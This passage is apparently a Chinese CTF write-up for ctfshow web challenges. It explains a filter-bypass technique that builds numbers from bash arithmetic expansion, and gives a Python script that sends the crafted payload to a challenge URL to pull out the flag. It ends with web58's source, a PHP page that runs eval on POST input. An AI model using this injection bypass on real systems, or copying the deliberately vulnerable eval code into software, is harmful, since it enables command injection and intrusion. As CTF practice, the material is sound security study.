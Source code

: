 很明显，过滤了一堆东西，要我们构造一个数字36

根据php的规则，$(())是计算符号，$(())就是0，取反就可以得到－1即$((~$(())))

直接上脚本跑

```python
'''
Descripttion: 
version: 
Author: S1in
Date: 2023-06-25 11:24:27
LastEditors: S1in
LastEditTime: 2023-07-01 19:28:09
'''
import requests
import re
def num(c):
    num=1
    a=-1
    while(1):
        b=~a
        a=a-1
        if b==c:
            return num
        num+=1
def out(b):
    a="+$((~$(())))"
    str="$((~$(())))"
    for i in range((num(b)-1)):
        str+=a
    c="$((~$(("+str+"))))"
    return c
def exp(url,a):
    res=requests.get(url=url+"?c="+str(out(a)))
    print(re.search('ctfshow{.*}',res.text).group())
if __name__=='__main__':
    exp("http://f3b233e2-b29a-4cd1-ae46-f035f19b3f75.challenge.ctf.show/",36)
```

### web58

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```
